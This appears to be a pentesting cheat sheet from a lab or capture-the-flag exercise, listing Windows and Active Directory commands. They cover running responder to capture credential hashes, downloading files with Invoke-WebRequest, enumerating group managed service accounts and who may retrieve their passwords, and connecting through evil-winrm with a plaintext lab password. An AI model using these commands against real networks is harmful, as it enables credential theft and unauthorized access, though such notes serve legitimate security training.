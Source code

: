 command for responder:

```
responder -I tun0 -wv
```
Powershell commands:

Download files from a url
```
Invoke-WebRequest -Uri <ip address> -Outfile <filename>
```
Checks to see who has gmsa permissions on an AD:
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```

known manual start permissions on windows:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
look for services that start manually
```
Get-Service | findstr -i "manual"
```

Check if user is in an admin group:

```
Get-ADGroupMember 'Web Admins'
```

What groups have permission to acheive a users password:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```
Winrm command to give access to our folder to run files:
```
evil-winrm -i 192.168.120.116 -u anirudh -p "SecureHM" -s .
```
